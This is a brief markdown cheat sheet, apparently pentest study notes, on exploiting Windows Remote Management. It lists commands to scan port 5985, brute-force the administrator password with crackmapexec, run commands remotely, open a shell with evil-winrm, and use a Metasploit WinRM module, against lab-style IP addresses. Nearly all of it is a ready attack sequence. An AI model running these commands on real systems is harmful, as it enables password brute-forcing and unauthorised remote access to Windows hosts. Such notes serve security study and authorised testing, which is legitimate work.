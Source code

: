 
# Exploiting WinRM
### WinRM
- Windows Remote Management Protocol
- Not ran by default
- Can be used to facilitate remote access with Windows systems over HTTP(S)
- TCP ports 5985 and 5986

### Exploiting WinRM
- Utility called **crackmapexec** for performing brute-force to identify users and their passwords
- to obtain the command shell we use **evil-winrm**
- **process**
	- `$ nmap -sV -p 5985 10.10.10.10`
	- `$ crackmapexec winrm 10.10.1.10 -u administrator -p <path to pass list>  `
	- `$ crackmapexec winrm 10.10.10.10 -u administrator -p password -x "whoami"`
	- `$ evil-winrm.rb -u administrator -p 'password' -i 10.10.10.10` - to get a command shell
- **Using Metasploit**
	- `$ service postgresql start && msfconsole`
	- `$ search winrm_script`
	- `$ use the exploit`
	-`$ set the options -ex: set FORCE_VBS true`
	- `$ exploit`
